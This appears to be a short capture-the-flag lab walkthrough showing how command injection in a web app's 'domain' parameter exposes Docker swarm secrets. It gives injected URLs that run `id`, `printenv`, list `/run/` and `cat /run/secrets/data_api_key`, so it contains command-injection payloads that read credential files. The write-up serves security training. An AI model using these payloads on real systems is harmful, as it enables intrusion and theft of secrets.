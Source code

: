 # Exploiting Cluster Secrets

In this scenario we will see how we will exploit an application to access docker swarm cluster secrets.

* The application running in the CTF VM has code execution vulnerability `http://CTFVMIP:8080/?domain=;id` and is running in docker swarm as service with attached secrets

![accessing the docker swarm app](images/access-docker-swarm-app.png)

* We can access the application container's environment variables using the `printenv` command by visiting `http://CTFVMIP:8080/?domain=;printenv`

![access docker swarm environment variables](images/access-docker-swarm-env.png)

* We can explore the directories further `http://CTFVMIP:8080/?domain=;ls -l /run/`

![docker swarm app search locations](images/docker-swarm-search-locations.png)

* The secrets are mounted via `docker secrets` at `/var/run/` or `/run/`. We can access them by visiting `http://CTFVMIP:8080/?domain=;cat /run/secrets/data_api_key`

![docker secret access data](images/docker-secrets-default-location.png)

* A similar approach can be user for `docker swarm` and `kubernetes` cluster environments
